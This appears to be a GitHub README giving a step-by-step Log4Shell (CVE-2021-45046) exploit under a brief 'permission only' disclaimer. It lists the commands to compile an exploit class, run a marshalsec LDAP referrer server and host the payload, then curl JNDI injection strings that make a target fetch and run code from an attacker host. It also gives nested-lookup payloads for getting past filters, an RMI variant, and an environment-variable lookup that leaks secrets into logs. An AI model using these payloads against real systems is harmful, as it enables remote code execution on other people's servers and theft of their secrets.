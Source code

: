 ###Use this information only for learning, testing your own systems, with permission or to fix your stuff. Do not attack machines you do now have permission to.

#CVE-2021-45046

Vulnerable software:
Apache Log4j2 2.0-beta9 through 2.12.1 and 2.13.0 through 2.15.0

Log4j recursively expands certain strings when it logs them.
Log4j expands JNDI (java naming and directory interface) strings, which allow LDAP (directory service) requests
An attacker may set up an LDAP service that response with a referrer. JNDI will then happily download the referred to class file from the specified source and execute the code inside of it. The attacker may compile his own java code and serve it with a web server.

So long as an attacker is able to make the target log a specifically crafted string with a vulnerable log4j library, he can execute arbitrary code.
Because the strings are expanded recursively, filtering is easily bypassed.

#Setup:

compile with compatible java version for target. example:

```bash
/usr/lib/jvm/java-8-openjdk-amd64/bin/javac Exploit.java
```

run ldap referrer server (https://github.com/mbechler/marshalsec)

```bash
export IP="ip.of.attacker.machine"      # ip of the python http web server
export PYPORT="8000"                    # port for python simple http server
export LDAPPORT="1389"                  # optional, port to bind the ldap server to
java -cp /home/paul/repositories/marshalsec/target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://$IP:$PYPORT/#Exploit" $LDAPPORT
```

run python web server to host the `.class` files

```bash
python -m http.server $PYPORT
```

then somehow make the target log this string with a vulnerable log4j

```text
${jndi:ldap://ip.of.attacker.machine:ldapport/Exploit}
```

```bash
curl 'http://target.tld/solr/admin/cores?foo=$\{jndi:ldap://ip.of.attacker.machine:ldapport/Exploit\}'
```


#Bypasses

Since Log4j does recursive string expansion, simply filtering for "jndi" for example will not work.

```text
${env:ENV_NAME:-j}
${upper:n}
${lower:d}
${::-i}
```

```bash
curl 'http://target.tld/vulnerable/uri/endpoit/loggin/query/parameters?bar=$\{$\{upper:j\}$\{::-n\}$\{upper:d\}$\{lower:i\}:ldap://attacker.ip:1389/Exploit\}'
```

for example results in "j"
we can use this method to build the whole string.

Also marshalsec can do RMI protocol.
Simply start with `marshalsec.jndi.RMIRefServer`, and instead of `ldap://` use `rmi://` in the exploit string

#Other stuff
log4j can expand arbitrary environment variables
even without RCE this can be bad.

```text
${env:SECRET_API_KEY}
```

if you can get your hands on the log files somehow, even without RCE, you can extract information

#More resources
##General
https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/
https://github.com/YfryTchsGD/Log4jAttackSurface
https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java
https://log4shell.huntress.com/
https://www.youtube.com/watch?v=7qoPDq41xhQ

##Detection
https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes
https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d
https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228
https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1
https://github.com/darkarnium/CVE-2021-44228

##Mitigation
Consult your software distributor. Generally: Update log4j.

